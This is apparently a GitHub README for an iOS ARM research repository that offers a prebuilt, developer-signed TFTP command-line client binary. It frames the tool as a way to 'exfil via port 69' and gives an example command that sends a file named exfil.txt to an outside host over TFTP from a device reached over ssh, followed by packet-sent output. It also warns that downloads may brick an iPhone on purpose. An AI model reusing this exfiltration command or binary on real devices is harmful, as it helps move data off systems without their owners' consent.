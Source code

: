 ## SEE https://github.com/xsscx/srd

# ios-arm-research
iOS, ARM, Research

Note to those coming to this Repo in a Blind manner.. you really don't want to be downloading anything here, it'll probably brick you iphone, on purpose.
To those who land here Blind, be so careful what you download from the Internet.. these files are for troubleshoot technical support issue and have a very specific context.

To the people that I sent here, you're in the right place. Keep going.. this is th right place to be... :-)

Updated Jan 25 2021

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID for convenience for iOS Research

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work..

Comment: the compiled file may be really helpful since you may want to exfil via port 69.

The files in this Repo.. starting point for why you came.. refer back to that Post for the Makefile mods ... the Makefile here is for Intel Platform.. so you need to read that Post on cross compilation for client .... OR just copy the client binary..its iOS ready to run. 


Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye





